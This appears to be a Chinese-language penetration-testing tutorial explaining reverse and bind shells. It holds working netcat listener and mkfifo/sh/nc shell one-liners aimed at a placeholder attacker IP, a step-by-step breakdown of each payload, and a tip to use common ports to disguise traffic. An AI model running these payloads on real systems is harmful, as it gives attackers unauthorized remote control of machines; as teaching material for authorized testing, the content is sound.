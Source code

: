 ### 1. Shell概述
#### 概述
Shell是在目标系统上执行命令的一种方式。主要分为反弹Shell（Reverse Shell）和正向Shell（Bind Shell）。获取Shell是渗透测试中控制目标系统的关键步骤。

### 2. 反弹Shell (Reverse Shell)
#### 概述
反弹Shell由目标机器主动发起连接到攻击者机器。这种方式通常用于目标机器防火墙限制入站连接，但允许出站连接的情况。
#### 方法
1.  **设置监听器 (Attacker Machine)**
    *   使用Netcat (`nc`) 监听指定端口，等待目标连接。
    *   常用端口：`53`, `80`, `443`, `8080` 等，以混淆流量。
    *   命令示例：`nc -lvnp 443`
        *   `-l`: 监听模式
        *   `-v`: 详细输出
        *   `-n`: 不进行DNS解析
        *   `-p`: 指定端口

2.  **执行Payload (Target Machine)**
    *   在目标机器上执行特定命令，使其连接回攻击者的监听器。
    *   **Linux `nc` Payload示例:**
        ```bash
        rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <ATTACKER_IP> <LISTENER_PORT> > /tmp/f
        ```
    *   **Payload分解:**
        *   `rm -f /tmp/f`: 删除可能已存在的管道文件，避免冲突。
        *   `mkfifo /tmp/f`: 创建一个命名管道 (FIFO)，用于进程间通信。
        *   `cat /tmp/f`: 从管道读取数据（等待输入）。
        *   `| /bin/sh -i 2>&1`: 将管道读取的内容传递给一个交互式Shell (`sh -i`)。`2>&1` 将标准错误重定向到标准输出，确保错误信息也发送给攻击者。
        *   `| nc <ATTACKER_IP> <LISTENER_PORT>`: 将Shell的输出通过Netcat发送到攻击者的IP和端口。
        *   `> /tmp/f`: 将从Netcat接收到的（攻击者的命令）写回管道，完成双向通信。

### 3. 正向Shell (Bind Shell)
#### 概述
正向Shell在目标机器上监听一个端口，等待攻击者主动连接。攻击者连接成功后，即可获得Shell。这种方式要求目标机器的防火墙允许入站连接到该监听端口。
#### 方法
1.  **执行Payload (Target Machine)**
    *   在目标机器上执行特定命令，使其在指定端口开启监听并绑定Shell。
    *   **Linux `nc` Payload示例:**
        ```bash
        rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc -l -p <BIND_PORT> > /tmp/f
        # 或者更通用的监听所有接口：
        rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc -l 0.0.0.0 <BIND_PORT> > /tmp/f
        ```
        *   **注意:** 监听1024以下的端口通常需要root权限。使用如`8080`等高位端口可避免此问题。 Payload结构与反弹Shell类似，主要区别在于使用`nc -l -p <PORT>` (或 `nc -l <PORT>`) 在目标机上监听。
